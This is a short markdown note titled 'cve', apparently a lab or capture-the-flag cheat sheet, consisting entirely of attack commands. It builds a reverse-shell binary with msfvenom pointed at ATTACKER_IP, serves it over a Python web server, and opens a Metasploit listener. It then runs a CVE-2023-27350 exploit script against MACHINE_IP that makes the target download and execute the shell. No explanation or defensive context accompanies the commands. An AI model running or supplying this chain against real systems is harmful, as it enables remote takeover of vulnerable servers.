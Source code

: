 # cve

msfvenom -p linux/x86/shell/reverse_tcp -f elf LHOST=ATTACKER_IP LPORT=4444 -o shell.elf

python3 -m http.server 8080

msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; exploit"

python3 CVE-2023-27350.py -u http://MACHINE_IP:9191 -c "wget http://ATTACKER_IP:8080/shell; chmod +x shell; ./shell"
